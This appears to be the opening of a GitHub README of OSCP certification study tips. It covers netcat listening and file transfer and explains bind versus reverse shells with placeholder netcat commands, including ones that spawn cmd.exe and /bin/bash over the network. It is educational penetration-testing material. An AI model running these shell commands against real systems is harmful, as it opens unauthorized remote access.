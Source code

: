  NEW:Go4OSCP # Go-For-OSCP

I want to share a couple of things that I think helped me preparing the Offensive Security Certified Professional - OSCP certification and what I found useful during the labs and exam. If you have any questions, feel free to contact me.

Don't forget to:

* Follow the courseware first and then start practicing in the labs.
* Use additional sources to learn more.
* Join the offensive security PWK forums and social media and talk to other people.

# Tips
<b>Enable service on every reboot:</b>

	update-rc.d <[SERVICE]> enable

<b>Extract link from html page:</b>

	cat index.html | grep "href=" | cut -d "/" -f3| grep "<[DOMAIN]>" | cut -d '"' -f1 | sort -u

# Netcat
<b>Interact with application:</b>

	nc -nv <[IP]> <[PORT]>

<b>Listener:</b>

	nc -nlvp <[PORT]>

<b>File transfer (client):</b>

	nc -nlvp <[PORT]> > <[FILE]>

<b>File transfer (server):</b>

	nc -nv <[IP]> <[PORT]> < <[FILE_TO_SEND]>

# Bind vs Reverse Shell

<img src="https://raw.github.com/SynAckPwn23/Go-For-OSCP/master/Uploads/img/Bind_Reverse_shell.png" width="500"/>

<b>Bind Shell:</b>

Bob needs Alice's help. Bob set up a listener on port 4444 with -e parameter:

	(BOB): nc -nlvp <[PORT]> -e cmd.exe

	(ALICE): nc -nv <[BOB_IP]> <[PORT]>

<b>Reverse Shell:</b>

Alice needs Bob's help. Since Alice is beyond firewall it is impossible to BOB to reach Alice. So Alice create a reverse shell:

	(ALICE): nc -nv <[BOB_IP]> <[PORT]> -e /bin/bash
